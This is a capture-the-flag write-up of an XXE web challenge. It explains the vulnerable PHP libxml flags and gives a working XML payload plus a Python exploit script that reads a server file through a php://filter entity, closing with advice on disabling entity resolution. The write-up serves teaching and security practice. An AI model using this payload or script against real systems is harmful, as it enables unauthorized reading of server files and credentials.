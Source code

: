 # XXehhh Writeup - Web
- Author: Evan Pardon | [supasuge](https://github.com/supasuge)
- Difficulty: Medium


## Brief Introduction to XXE

XML External Entity (XXE) vulnerabilities arise when an application parses XML input unsafely, allowing attackers to define external entities that reference external resources or internal files. This can lead to sensitive information disclosure, server-side request forgery (SSRF), and denial-of-service attacks.

### Identifying the Vulnerability

The challenge provides a PHP script (`process.php`) handling user-supplied XML:

```php
libxml_disable_entity_loader(false);
$dom->loadXML($xmlContent, LIBXML_NOENT | LIBXML_DTDLOAD);
```

The key indicator of XXE vulnerability here is the usage of `LIBXML_NOENT` and enabling entity loading (`libxml_disable_entity_loader(false)`), which explicitly allows parsing and resolving external entities within XML payloads.

### Exploitation Steps

To exploit this vulnerability, craft an XML payload containing a malicious DTD entity referencing internal server files. In this challenge, the goal is to retrieve the `flag.txt` file.

The crafted XML payload exploits PHP's stream wrappers (`php://filter/convert.base64-encode/resource=FILE_TO_EXFIL`) to read and base64-encode the file content:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.txt">
]>
<root>
  <name></name>
  <tel></tel>
  <email>OUT&xxe;OUT</email>
  <password></password>
</root>
```

### Exploit Explanation

- **External Entity Definition**: The entity `xxe` is defined to load `flag.txt` using PHP's `php://filter` stream wrapper, converting its contents into base64.
- **XML Field Injection**: The malicious entity `&xxe;` is injected between identifiable markers (`OUT`) into the XML's `<email>` field, making it easy to extract the encoded data from the server response.

### Extracting and Decoding the Flag

Use the provided Python script (`exploit.py`) to automate exploitation:

```python
import requests
import base64
import re

def run_exploit():
    url = "https://grizzhacks-xxehhh.chals.io/process.php"
    payload = '''<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.txt">
]>
<root>
  <name></name>
  <tel></tel>
  <email>OUT&xxe;OUT</email>
  <password></password>
</root>
'''
    headers = {"Content-Type": "application/xml"}
    response = requests.post(url, data=payload, headers=headers)

    if response.status_code != 200:
        raise Exception(f"HTTP error: {response.status_code}")

    match = re.search(r'OUT([A-Za-z0-9+/=]+)OUT', response.text)
    if not match:
        raise Exception("Flag extraction failed.")

    encoded_flag = match.group(1)
    return base64.b64decode(encoded_flag).decode("utf-8")

if __name__ == "__main__":
    print("Flag:", run_exploit())
```

### Conclusion

By identifying and leveraging unsafe XML parsing behavior, we successfully exploit an XXE vulnerability, reading sensitive server files and retrieving the challenge flag. Always disable external entity resolution and avoid using unsafe parser flags like `LIBXML_NOENT` to prevent XXE attacks in real-world applications.

